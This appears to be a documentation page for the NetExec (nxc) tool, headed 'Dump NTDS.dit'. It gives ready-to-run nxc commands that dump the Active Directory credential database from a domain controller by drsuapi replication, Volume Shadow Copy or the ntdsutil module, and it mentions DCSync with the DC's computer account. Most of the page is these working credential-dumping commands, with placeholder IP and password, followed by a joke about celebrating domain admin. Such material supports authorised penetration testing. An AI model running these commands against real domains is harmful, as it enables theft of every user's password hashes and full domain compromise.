 # Dump NTDS.dit

### Dump the NTDS.dit from target DC using methods from secretsdump.py

{% hint style="danger" %}
Requires Domain Admin or Local Admin Priviledges on target Domain Controller
{% endhint %}

```
2 methods are available:   
(default) 	drsuapi -  Uses drsuapi RPC interface create a handle, trigger replication, and combined with   
						additional drsuapi calls to convert the resultant linked-lists into readable format  
			vss - Uses the Volume Shadow copy Service  
```

```
#~ nxc smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds
#~ nxc smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds --users
#~ nxc smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds --users --enabled
#~ nxc smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' --ntds vss
```

{% hint style="info" %}
You can also DCSYNC with the computer account of the DC
{% endhint %}

There is also the ntdsutil module that will use ntdsutil to dump NTDS.dit and SYSTEM hive and parse them locally with secretsdump.py&#x20;

```
#~ nxc smb 192.168.1.100 -u UserNAme -p 'PASSWORDHERE' -M ntdsutil
```

Remember to play this music everytime you got DA

{% embed url="https://www.youtube.com/watch?v=SyjUwhBYa6Q" %}
